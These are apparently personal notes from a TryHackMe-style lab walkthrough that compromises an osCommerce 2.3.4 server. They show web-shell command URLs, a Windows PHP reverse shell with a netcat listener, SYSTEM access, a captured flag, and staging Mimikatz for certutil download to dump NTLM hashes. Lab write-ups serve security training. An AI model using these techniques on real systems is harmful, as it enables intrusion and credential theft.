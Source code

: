 - now success fully uplaoded the reverse.exe file and now going back to http://10.10.220.55:8080/oscommerce-2.3.4/catalog/install/includes/shell.php?cmd=dir

we change the command to `reverse.exe` and start a netcat (port 4444) listener for it

- this http://10.10.220.55:8080/oscommerce-2.3.4/catalog/install/includes/shell.php?cmd=reverse.exe also did not work for me

---

- now found this resource https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php

- using the above method to deliver this file


- change `system` to `shell_exec` in the windows php reverse shell
`$output = shell_exec($cmd);`
 started nc listener , triggered the file and got a shell


```
C:\Windows\Temp>whoami
whoami
nt authority\system

```

- and found the root flag

```
C:\Users\Administrator\Desktop>type root.txt.txt
type root.txt.txt
THM{aea1e3ce6fe7f89e10cea833ae009bee}
```



- now to get the   
"Lab" user NTLM hash decrypted

using the writeup we get

---
For this, we will use **Mimikatz** it's **a leading post-exploitation tool that dumps passwords from memory and** **hashes**, **PINs**, and Kerberos tickets.

The Big Question Here is that How to get Mimikatz on the server as we don't have services like Netcat and Curl To Download Files?.

So for this, we will use **Certutil.exe** this is **a command-line program**, installed as part of Certificate Services. We can use this to Fetch File From Other Servers

We will first get the x86 Version of Mimikatz in our Current Directory and then start a simple python HTTP server. And then Setup certutil.exe on the target machine to fetch Our Hosted File. Launch Certutil using the following command.

---

- copied the minikatz file in current directory using
```
~/Desktop/THM/blueprint ▓▒░ cp /usr/share/mimikatz/Win32/mimikatz.exe .
```
and
`python3 -m http.server`
